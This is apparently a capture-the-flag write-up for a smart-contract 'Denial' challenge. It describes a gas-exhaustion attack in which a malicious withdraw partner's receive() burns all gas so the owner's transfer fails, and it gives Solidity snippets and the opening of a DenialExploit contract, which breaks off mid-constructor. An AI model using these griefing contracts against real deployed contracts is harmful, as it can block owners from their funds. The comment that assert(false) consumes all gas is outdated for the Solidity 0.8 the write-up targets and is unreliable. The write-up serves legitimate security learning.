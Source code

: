 ## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

### The Attack Vector

Our attack strategy is to create a malicious withdraw partner that consumes all available gas, preventing the owner's transfer from executing:

1. Deploy a malicious contract with a gas-consuming `receive()` function
2. Set our malicious contract as the withdraw partner
3. When `withdraw()` is called, our contract consumes all gas
4. The subsequent `owner.transfer()` fails due to out of gas
5. The owner is denied from withdrawing funds!

### Methods to Consume All Gas

There are several ways to consume all available gas in a contract:

#### Method 1: Infinite Loop
```solidity
receive() external payable {
    while(true) {}
}
```

#### Method 2: Assert False
```solidity
receive() external payable {
    assert(false); // Consumes all gas and reverts
}
```

#### Method 3: Expensive Storage Operations
```solidity
receive() external payable {
    while(gasleft() > 0) {
        someStorage[counter++] = bytes32(block.timestamp);
    }
}
```

### Implementation Details

The solution contract, `DenialExploit`, implements the gas exhaustion attack:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
    function withdraw() external;
    function contractBalance() external view returns (uint256);
}

contract DenialExploit {
    address public denial;
    address public owner;

    constructor(address _denial) {
```